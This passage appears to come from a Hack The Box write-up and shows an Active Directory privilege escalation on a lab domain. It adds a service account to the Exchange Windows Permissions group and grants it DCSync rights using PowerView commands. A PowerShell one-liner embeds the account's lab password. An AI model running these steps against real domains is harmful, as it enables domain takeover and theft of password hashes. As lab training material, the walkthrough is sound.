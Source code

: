 This gives a full background as to how to abuse this, and if I scroll down, I see an example:

```

Add-DomainGroupMember -Identity 'Domain Admins' -Members 'harmj0y' -Credential $Cred

```

I could also use:

```

net group "Exchange Windows Permissions" svc-alfresco /add /domain

```

#### Grant DCSync Privileges

Now I’ll use the fact that members of the Exchange Windows Permissions group have WriteDacl on the domain. Again, looking at the help, it shows commands I can run:

```

$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('TESTLABdfm.a', $SecPassword)
Add-DomainObjectAcl -Credential $Cred -TargetIdentity testlab.local -Rights DCSync

```

Once I do that, I can run a DCSync attack, either with [Mimikatz](https://github.com/gentilkiwi/mimikatz) locally, or with `secretsdump.py` from my Kali box, since DCSync only requires access to TCP 445, TCP 135, and a TCP RPC port (49XXX). (How did I know that? I’ll explore in [Beyond Root](#dcsync-ports).)

### Exploit

#### Timeout

As I started to try to execute this attack, trial and error had me confused. I’d add my user to the Exchange Windows Permissions group, and then run the necessary commands, and it wouldn’t work. And then I’d run `net user svc-alfreso`, and I wouldn’t be in the group anymore. It turns out there’s cleanup going on here (I’ll exploit it in [Beyond Root](#cleanup-script)), so I have to move fast.

#### Success

I’ll create a one-liner to run locally. I don’t need to pass credentials to the first command, because I’m already running as a user with those rights. I did have to pass credentials to the second command. My best guess is that the session doesn’t know yet about my being in the new group from the first command, and that passing credentials refreshes that.

```

Add-DomainGroupMember -Identity 'Exchange Windows Permissions' -Members svc-alfresco; $username = "htb\svc-alfresco"; $password = "s3rvice"; $secstr = New-Object -TypeName System.Security.SecureString; $password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}; $cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $secstr; Add-DomainObjectAcl -Credential $Cred -PrincipalIdentity 'svc-alfresco' -TargetIdentity 'HTB.LOCAL\Domain Admins' -Rights DCSync

```
